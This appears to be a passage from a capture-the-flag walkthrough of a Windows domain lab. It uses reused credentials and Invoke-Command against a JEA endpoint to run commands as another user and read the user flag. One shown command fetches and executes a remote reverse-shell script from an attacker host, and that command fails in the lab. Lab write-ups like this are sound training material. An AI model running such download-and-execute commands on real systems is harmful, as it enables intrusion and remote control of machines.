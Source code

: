 As you can see, the command `Measure-Object` is not recognized.

According to [Microsoft](https://learn.microsoft.com/en-us/troubleshoot/windows-server/system-management-components/enter-pssession-cmdlet-fails-psmodulepath-variable), it's because: **"When a PowerShell session is created and authenticates through Kerberos, the session doesn't support double hop. So, the PowerShell session can't authenticate by using network resources."**

So, maybe the JEA configuration `dc_manage` has some issues, an issue with [Kerberos Double Hop](https://techcommunity.microsoft.com/t5/ask-the-directory-services-team/understanding-kerberos-double-hop/ba-p/395463), or both.

Now, instead of start an interactive session with the Domain Controller as domain user `imonks`, **we can just use `Invoke-Command` to execute PowerShell commands on the Domain Controller as domain user `imonks`:**

```shell
PS C:\Users\edavies\Documents> Invoke-Command -Computer ATSSERVER -Credential $cred -ConfigurationName dc_manage -ScriptBlock { whoami }
acute\imonks
```

Nice, we can execute commands as domain user `imonks`!

**user.txt:**
```shell
PS C:\Users\edavies\Documents> Invoke-Command -Computer ATSSERVER -Credential $cred -ConfigurationName dc_manage -ScriptBlock { cat C:\Users\imonks\Desktop\user.txt }
{Redacted}
```

## Privilege Escalation

### `ATSSERVER` imonks to `Acute-PC01` jmorgan

**However, I can't get a reverse shell as domain user `imonks`:**
```shell
PS C:\Users\edavies\Documents> Invoke-Command -Computer ATSSERVER -Credential $cred -ConfigurationName dc_manage -ScriptBlock {cmd /c "powershell -ep bypass iex (New-Object Net.WebClient).DownloadString('http://10.10.14.19/revshell_imonks.ps1')"}
The term 'cmd.exe' is not recognized as the name of a cmdlet, function, script file, or operable program. Check the 
spelling of the name, or if a path was included, verify that the path is correct and try again.
    + CategoryInfo          : ObjectNotFound: (cmd.exe:String) [], CommandNotFoundException
    + FullyQualifiedErrorId : CommandNotFoundException
    + PSComputerName        : ATSSERVER
```

So... Because of the JEA's `dc_session` configuration, we're in a very **limited shell** as domain user `imonks`, like **lots of PowerShell commands can't be used**.

**When I got the user flag, I found an interesting PowerShell script in `C:\Users\imonks\Desktop\`:**
```shell
PS C:\Users\edavies\Documents> Invoke-Command -Computer ATSSERVER -Credential $cred -ConfigurationName dc_manage -ScriptBlock { ls C:\Users\imonks\Desktop }
[...]
Mode                 LastWriteTime         Length Name                               PSComputerName                    
----                 -------------         ------ ----                               --------------                    
-ar---         8/15/2023   5:59 AM             34 user.txt                           ATSSERVER                         
-a----         1/11/2022   6:04 PM            602 wm.ps1                             ATSSERVER
```
